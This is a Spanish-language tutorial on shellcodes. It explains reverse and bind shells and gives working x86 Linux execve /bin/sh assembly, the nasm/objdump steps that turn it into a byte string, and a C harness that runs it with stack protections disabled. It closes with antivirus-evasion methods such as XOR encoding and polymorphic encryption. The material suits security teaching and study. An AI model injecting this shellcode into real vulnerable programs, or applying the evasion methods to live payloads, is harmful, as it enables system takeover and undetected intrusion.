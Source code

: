 # Shellcodes

## 1. ¿Qué es un Shellcode?
Un **shellcode** es un fragmento de código en lenguaje ensamblador diseñado para ejecutarse dentro de un proceso objetivo. 
Se usa comúnmente en **exploits** para tomar el control de un sistema vulnerable.

Los shellcodes pueden ejecutarse en memoria sin necesidad de archivos, lo que los hace ideales para ataques como **buffer overflows** o **inyecciones de código**.

## 2. Tipos de Shellcodes
Existen diferentes tipos de shellcodes según el contexto de ataque:

- **Shellcodes de usuario**: Se ejecutan dentro de procesos de usuario sin privilegios elevados.
- **Shellcodes de kernel**: Se ejecutan en el espacio de kernel, lo que permite un control total del sistema.
- **Shellcodes conectados a red**:
  - **Reverse shell**: Se conecta a un servidor remoto y permite al atacante tomar el control.
  - **Bind shell**: Abre un puerto en la máquina víctima para que el atacante se conecte.

## 3. Características de un Shellcode
Un shellcode efectivo debe cumplir con los siguientes criterios:

- **Pequeño**: Minimiza el tamaño para encajar en buffers pequeños.
- **Autocontenido**: No depende de librerías externas.
- **Evasivo**: Evita caracteres nulos (`\x00`) y detección por antivirus.
- **Portable**: Funciona en múltiples versiones del sistema operativo objetivo.

## 4. Creación de un Shellcode
Para crear un shellcode, se usa ensamblador y luego se convierte en una cadena de bytes. Por ejemplo, un shellcode en **x86 Linux** para ejecutar `/bin/sh`:

```assembly
section .text
    global _start

_start:
    xor eax, eax         ; Limpia eax
    push eax             ; NULL terminator
    push 0x68732f2f      ; "//sh"
    push 0x6e69622f      ; "/bin"
    mov ebx, esp         ; Apunta ebx a "/bin//sh"
    xor ecx, ecx         ; argv = NULL
    xor edx, edx         ; envp = NULL
    mov al, 0xb          ; syscall execve
    int 0x80             ; Llamada al kernel

# 5. Conversión de Shellcode a Cadena de Bytes

Para convertir un shellcode en ensamblador a una cadena de bytes.

Primero ensamblamos el código:

```bash
nasm -f elf32 shellcode.asm -o shellcode.o
```

Luego, lo vinculamos y obtenemos el shellcode en formato hexadecimal con `objdump`:

```bash
ld -m elf_i386 -o shellcode shellcode.o
objdump -d shellcode | grep '[0-9a-f]:' | grep -o '\b[0-9a-f]\{2\}\b' | tr -d '\n' | sed 's/\(..\)/\\x\1/g'
```

Este comando genera una cadena de bytes que se puede inyectar en un programa.

## 6. Uso del Shellcode en C

Podemos probar el shellcode en un programa en C:

```c
#include <stdio.h>
#include <string.h>

unsigned char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80";

int main() {
    printf("Ejecutando shellcode...\n");
    int (*ret)() = (int(*)())shellcode;
    ret();
}
```

Compilamos y ejecutamos:

```bash
gcc -m32 -fno-stack-protector -z execstack shellcode.c -o shellcode
./shellcode
```

Si se ejecuta correctamente, abrirá una shell interactiva.

## 7. Evasión de Detección

Para evitar detecciones, se pueden aplicar técnicas como:

- **Codificación XOR**: Para evitar bytes nulos y firmas conocidas.
- **Obfuscación**: Alterar el orden de instrucciones sin cambiar la funcionalidad.
- **Cifrado Polimórfico**: Utilizar decodificadores automáticos.

